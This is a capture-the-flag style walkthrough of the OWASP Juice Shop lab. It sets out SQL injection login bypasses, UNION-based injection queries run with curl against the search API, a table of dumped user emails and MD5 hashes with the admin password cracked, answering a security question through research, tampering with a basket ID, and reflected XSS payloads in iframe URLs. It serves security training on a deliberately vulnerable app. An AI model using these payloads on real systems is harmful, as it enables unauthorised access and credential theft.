


# OWASP Juice Shop

## Description

This machine uses the OWASP Juice Shop vulnerable web application to learn how to identify and exploit common web application vulnerabilities. This room has been designed for beginners, but can be completed by anyone.

## [Task 3] Walk through the application

### Instructions

The first step to identifying vulnerabilities in a web application is actually using the web application. Use the web application like the actual user would:

* create an account
* click on the links you can see what the application does(and to identify an attack surface i.e. what parts of the application have functionality that you can attack)
* use the different functionality(e.g. making transactions)

Through this it is important to identify common themes such as:

* What languages/frameworks did the developer use to create the application.
* What version of the server/language did the developer use(if specified in the application)

During the walk through, it's important to think like a developer. During this process try and think of the design/implementation of a particular feature, and using these features in a way that the developer did not intend for them to be used.

### #3.1 - Walk through the application and use the functionality available.

Just following the instructions:
* let's create an account (`http://10.10.156.207/#/register`)
* log in (`http://10.10.156.207/#/login`)

Identify the use cases:
* Login (http://10.10.156.207/#/login), forgot password (http://10.10.156.207/#/forgot-password), register (http://10.10.156.207/#/register), change password (http://10.10.191.175/#/change-password)
* profile (http://10.10.191.175/profile). Upload avatar feature and possibility to provide a gravatar external URL (to be checked if it could be used to call a remote shell script)
* Contact (http://10.10.156.207/#/contact)
* Complain (http://10.10.156.207/#/complain). Allows file upload.
* View Basket (http://10.10.156.207/#/basket), modify quantities, delete item from basket, checkout, add coupon, choose payment method
* Checkout (http://10.10.156.207/ftp/order_f641-65346ab0581df3c4.pdf)
* Change language
* Search
* About (http://10.10.156.207/#/about)
* List items (http://10.10.156.207/#/search), jump to next page, view item details, post comment on item, edit comment, add item to basket
* Request Recycling Box (http://10.10.156.207/#/recycle)
* Access the source code (https://github.com/bkimminich/juice-shop)

The checkout operation generates a PDF that is stored in http://10.10.191.175/ftp/. Accessing this directory reveals a `quarantine` directory and several interesting files:

~~~
$ curl -s http://10.10.191.175/ftp/ | html2text 
# [~](/) / [ftp](/ftp) /

  * [quarantine2018-12-5 22:51:26](/ftp/quarantine "quarantine")
  * [acquisitions.md9092018-12-5 22:51:26](/ftp/acquisitions.md "acquisitions.md")
  * [coupons_2013.md.bak1312018-12-5 22:51:26](/ftp/coupons_2013.md.bak "coupons_2013.md.bak")
  * [eastere.gg3242018-12-5 22:51:26](/ftp/eastere.gg "eastere.gg")
  * [incident-support.kdbx32782018-12-5 22:51:26](/ftp/incident-support.kdbx "incident-support.kdbx")
  * [legal.md30472020-5-9 11:38:05](/ftp/legal.md "legal.md")
  * [order_f641-78bc3342563f4393.pdf11382020-5-9 11:42:03](/ftp/order_f641-78bc3342563f4393.pdf "order_f641-78bc3342563f4393.pdf")
  * [package.json.bak45132018-12-5 22:51:26](/ftp/package.json.bak "package.json.bak")
  * [suspicious_errors.yml7232018-12-5 22:51:26](/ftp/suspicious_errors.yml "suspicious_errors.yml")

$ curl -s http://10.10.191.175/ftp/quarantine | html2text 
# [~](/) / [ftp](/ftp) / [quarantine](/ftp/quarantine)

  * [..](/ftp "..")
  * [juicy_malware_linux_64.url1582018-12-5 22:51:26](/ftp/quarantine/juicy_malware_linux_64.url "juicy_malware_linux_64.url")
  * [juicy_malware_macos_64.url1582018-12-5 22:51:26](/ftp/quarantine/juicy_malware_macos_64.url "juicy_malware_macos_64.url")
  * [juicy_malware_windows_64.exe.url1642018-12-5 22:51:26](/ftp/quarantine/juicy_malware_windows_64.exe.url "juicy_malware_windows_64.exe.url")
~~~ 

One of the files is a keepass database:
~~~
$ file incident-support.kdbx 
incident-support.kdbx: Keepass password database 2.x KDBX
~~~

Trying to upload a PHP file to the complaint form tells us that only PDF are allowed. However, the file type is not checked because renaming the script to `*.php.pdf` worked.

## [Task 4] Injection

### Instructions

This section will focus on injection vulnerabilities. Injection vulnerabilities can cover a lot of different vulnerabilities including but not limited to:

* (no)SQL Injection - Depending on the database used, an attacker can enter a malicious or malformed query to either retrieve or tamper data from the database
* Command Injection - In applications that take user input or user controlled data and run them as system commands, a user may tamper with this data to execute their own system commands

In this case, it will just be basic SQL Injection

### #4.1 - Log in with the administrator's user account using SQL Injection

*Hint: Think of how SQL queries are written to check if a user exists/has the right password. How would you break out of this query?*

The login form is vulnerable to SQL injection. Indeed, injecting `' or '1'='1` as the email bypasses the authentication. The password field doesn't seem to be vulnerable.

Injecting the string `' or 1=1--` in the username and anything for the password allows to be logged in as admin.

The admin's email is `admin@juice-sh.op` (http://10.10.191.175/profile)

Analyzing the requests with Web developer (Network tab) reveals that the page is loaded by requests to a Rest API service that makes several requests:

* http://10.10.86.91/rest/user/whoami
* http://10.10.86.91/rest/admin/application-configuration
* http://10.10.86.91/rest/admin/application-version
* http://10.10.86.91/rest/product/search?q=banana

Example with search.

```json
$ curl -s http://10.10.86.91/rest/product/search?q=banana | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 6,
            "name": "Banana Juice (1000ml)",
            "description": "Monkeys love it the most.",
            "price": 1.99,
            "image": "banana_juice.jpg",
            "createdAt": "2020-05-09 14:31:57.681 +00:00",
            "updatedAt": "2020-05-09 14:31:57.681 +00:00",
            "deletedAt": null
        }
    ]
}
```

Let's see if search is an injectable field. The following request:
`http://10.10.86.91/rest/product/search?q=oops')) union select * from% users`

outputs:
~~~

OWASP Juice Shop (Express ~4.16.4)
500 SequelizeDatabaseError: SQLITE_ERROR: near "%": syntax error

       at Query.formatError (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)
       at afterExecute (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)
       at replacement (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/trace.js:19:31)
       at Statement.errBack (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/sqlite3.js:16:21)
~~~

Now we now that the backend is a SQLite database. Let's try to find the tables.

If we request `http://10.10.86.91/rest/product/search?q=oops')) union select 1--`, we have the following output:

~~~
OWASP Juice Shop (Express ~4.16.4)
500 SequelizeDatabaseError: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns

       at Query.formatError (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)
       at afterExecute (/home/ubuntu/juice-shop_8.2.0/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)
       at replacement (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/trace.js:19:31)
       at Statement.errBack (/home/ubuntu/juice-shop_8.2.0/node_modules/sqlite3/lib/sqlite3.js:16:21)
~~~

Not the same number of results columns? OK, let's increment until we find the right number:

* `http://10.10.86.91/rest/product/search?q=oops')) union select 1--`
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2--`
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2,3--` 
* ...
* `http://10.10.86.91/rest/product/search?q=oops')) union select 1,2,3,4,5,6,7,8--`

~~~
$ curl -s "http://10.10.86.91/rest/product/search?q=oops%27))%20union%20select%201,2,3,4,5,6,7,8--" | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 1,
            "name": 2,
            "description": 3,
            "price": 4,
            "image": 5,
            "createdAt": 6,
            "updatedAt": 7,
            "deletedAt": 8
        }
    ]
}
~~~

See [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md) for a cheatsheet about SQLite injections.

We can get the SQLite version:
~~~
$ curl -s "http://10.10.86.91/rest/product/search?q=oops%27))%20union%20select%201,2,3,4,5,6,7,sqlite_version();--" | python -m json.tool
{
    "status": "success",
    "data": [
        {
            "id": 1,
            "name": 2,
            "description": 3,
            "price": 4,
            "image": 5,
            "createdAt": 6,
            "updatedAt": 7,
            "deletedAt": "3.24.0"
        }
    ]
}
~~~

Let's use python to automate the process and get the users. Run [injection.py](files/injection.py).

Unfortunately, I was not able to list tables, but supposed that there was a `users` table with at least `email` and `password` fields. We are able to dump all users and associated password hashes.

email | md5 pwd hash
---|---
J12934@juice-sh.op | 3c2abc04e4a6ea8f1327d0aae3714b7d
admin@juice-sh.op | 0192023a7bbd73250516f069df18b500
amy@juice-sh.op | 030f05e45e30710c3ad3c32f00de0473
bender@juice-sh.op | 0c36e517e3fa95aabf1bbffc6744a4ef
bjoern.kimminich@googlemail.com | 03b00c8d286034a70a59dc282e5982bb
bjoern.kimminich@owasp.org | 9283f1b2e9669749081963be0462e466
bjoern@juice-sh.op | 7f311911af16fa8f418dd1a3051d6810
ciso@juice-sh.op | 861917d5fa5f1172f931dc700d81a8fb
jim@juice-sh.op | e541ca7ecf72b8d1286474fc613e5e45
mc.safesearch@juice-sh.op | b03f4b0ba8b458fa0acdc02cdb953bc8
morty@juice-sh.op | f2f933d0bb0ba057bc8e33b8ebd6d9e8
support@juice-sh.op | d57386e76107100a7d6c2782978b2e7b
wurstbrot@juice-sh.op | 9ad5b0492bbe528583e128d2a8941de4

We obtain the admin's hash: `0192023a7bbd73250516f069df18b500`. This hash is found (http://www.md5decrypt.org/md5-decrypt.php?hash=0192023a7bbd73250516f069df18b500&check=495) with associated password `admin123`. We previously found the email as well: `admin@juice-sh.op`.

We are logged in as admin but it doesn't look like a real admin panel. There should be another one.

As the entire website is built upon javascript, let's see the source code. After reformatting the `main.js` script, I was able to locate some interesting entry points for the URL:

~~~
$ grep -A 54 ie.n.forRoot main.js | grep path
    path: "administration",
    path: "about",
    path: "basket",
    path: "contact",
    path: "change-password",
    path: "complain",
    path: "login",
    path: "forgot-password",
    path: "recycle",
    path: "register",
    path: "search",
    path: "score-board",
    path: "track-order",
    path: "track-result",
    path: "**",
~~~

Connecting with http://10.10.86.91/#/administration reveals the "true" administration panel.


## [Task 5] Broken Authentication

### Instructions

This task will involve looking at exploiting authentication through different logic flaws. When we talk about logic flaws within authentication, we include:

* forgotten password mechanisms
* exploiting bugs in the authentication process


### #5.1 - reset Jim's password using the forgotten password mechanism - what was the answer to the secret question?

*Hint: try look for more information on Jim*

From the previous question, we collected the following information about Jim:
* email: "jim@juice-sh.op"
* password hash: "e541ca7ecf72b8d1286474fc613e5e45",

Moreover, connecting to the administration panel, we can also collect some more information (including information from the `Recycling Requests` at the bottom of the administration panel):
* User ID: #2
* Created at: 2020-05-09T16:26:54.307Z
* Updated at: 2020-05-09T16:26:54.307Z
* Home Address: Starfleet HQ, 24-593 Federation Drive, San Francisco, CA

In the `forgot password` page (http://10.10.86.91/#/forgot-password), notice that if you enter a non-existing email address, the form won't load. It's a way to also list existing email addresses.

Using the web developer bar, I can see a request to `http://10.10.86.91/rest/user/security-question?email=jim@juice-sh.op` when we enter Jim's email address.

The secret question is:

```json
$ curl -s http://10.10.86.91/rest/user/security-question?email=jim@juice-sh.op | python -m json.tool
{
    "question": {
        "id": 1,
        "question": "Your eldest siblings middle name?",
        "createdAt": "2020-05-09T16:27:04.145Z",
        "updatedAt": "2020-05-09T16:27:04.145Z"
    }
}
```

Based on the home address (Starfleet), we make some searches on Star Trek characters (https://en.wikipedia.org/wiki/List_of_Star_Trek_characters_(G%E2%80%93M)#George_Samuel_Kirk,_Sr.). We find that `George_Samuel_Kirk` was the one (middle name: `Samuel`).

### #5.2 - What is the administrator password?

*Hint: sometimes admins use very easy and common passwords - do you think you can guess any of them?*

We already answered the question previously: `admin123`.


## [Task 6] Sensitive Data Exposure

### Instructions

When creating an application, it's important to store and transmit sensitive data carefully. In some cases, developer may not correctly protect sensitive data so it would be easy to gain access to personal information. In cases where this is done correctly, this protection isn't applied consistently. This task will involve identifying and extracting sensitive data from the application.

### #6.1 - Access a confidential document and enter the name of the first file with the extension ".md"

*Hint: Have you checked out the terms of use?*

While reviewing the different use cases in the beginning, we found that the invoices are published in the `/ftp` directory (http://10.10.86.91/ftp/) where we have found several files, including `acquisitions.md`.

## [Task 7] Broken Access Control

### Instructions

Most systems are designed to be used with multiple users. Users can either have the same privileges, or users can have separate privileges(e.g. having administrators or moderators that have more actions/permissions on the website). Users should not be able to access data from other users(with the same or different privilege). Broken access control involves identifying different bugs or incorrect implementations that allow an attacker to access data that they should not have access to.

### #7.1 - Access the administration section of the store - What is the name of the page?

*Hint: have you looked at the custom javascript files?*

We also answered to this question previously while listing the URL entries. The administration panel is accessible from http://10.10.86.91/#/administration.

Answer: `administration`

### #7.2 - Access someone else's basket    

*Hint: while on the appropriate page, have you checked local session storage on the browser*

Using the web developer bar, go to Application > Storage > Session Storage and notice that there is a variable named `bid`. Modify the value and refresh the page (F5) to access someone else's basket.



### #7.3 - Get rid of all 5 star customer feedback

*Hint: use the answer from question 1 to do this*

Connect as admin and go to the administration panel (`http://10.10.86.91/#/administration`). Delete the customer feedback with 5 stars (trash icon).

## [Task 8] Cross Site Scripting(XSS)

### Instructions

XSS is a vulnerability that involves injecting malicious javascript in trusted websites. Once an attacker has injected malicious javascript, sometimes a browser will not know whether to trust it, and it will run the script. Using this exploit an attacker can:

* steal session information through cookies
* arbitrarily redirect users to their own pages(for phishing)

There are a few different types of XSS attacks:

* Persistent/Non-Reflected - Here the XSS payload has been stored in the database, and once the server/framework passes the data from the database into the webpage, the script/payload is executed
* Non Persistent/Reflected - Here the XSS payload is usually crafted using a malicious link. It is not stored. 

You can cause javascript to execute using different payloads and HTML tags- [this](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet) is a good list of resources for payloads.

### #8.1 - Carry out reflected XSS using Tracking Orders

*Hint: what about using the iframe tag?*

http://10.10.86.91/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E



### #8.2 - Carry out XSS using the Search field?

*Hint: what about using the iframe tag?*

http://10.10.86.91/#/search?q=%3Ciframe%20src%3D%22javascript:alert('xss')%22%3E

